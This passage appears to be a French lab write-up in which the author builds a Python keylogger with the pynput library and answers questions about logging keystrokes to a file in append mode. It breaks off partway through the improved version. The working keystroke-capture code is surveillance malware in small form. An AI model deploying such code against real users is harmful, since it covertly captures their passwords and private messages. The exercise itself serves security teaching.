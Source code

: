 Nous donnant donc notre fichier complet:

```python
from pynput import keyboard

log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous pouvons constater que cela fonctionne correctement.

![image-20241128085842674](./assets/image-20241128085842674.png)

> Améliorez votre Keylogger en mettant en place un fichier `log.txt` qui va stocker les valeurs saisies.

>  Que fait la méthode `open` ?

La méthode `open` ouvre un fichier sur le système. Si le fichier n'existe pas, il le crée.

> `logfile = open(path, "a")` ?

Cette ligne ouvre ou crée le fichier `log.txt` en mode ajout (append), permettant d'écrire à la suite des données existantes.

> Que représente le paramètre `"a"` ?

Le paramètre `"a"` (append) signifie que le fichier sera ouvert en mode ajout. Les nouvelles données seront ajoutées à la fin du fichier sans effacer son contenu existant.

> Ajouter l’instruction `logfile.close()`. À quoi sert-elle ?

La méthode `close()` libère les ressources associées au fichier. Elle garantit que toutes les données en mémoire tampon sont écrites dans le fichier et ferme le fichier proprement.

Nous avons donc, *in finne*, le code suivant:

```python
from pynput import keyboard
import os
import threading

log = ""
path = "/Users/thomas/Desktop/log.txt"

def processkeys(key):
    """
    Process the keys pressed by the user and store them in the log variable.
    """
    global log
    try:
        log += key.char
```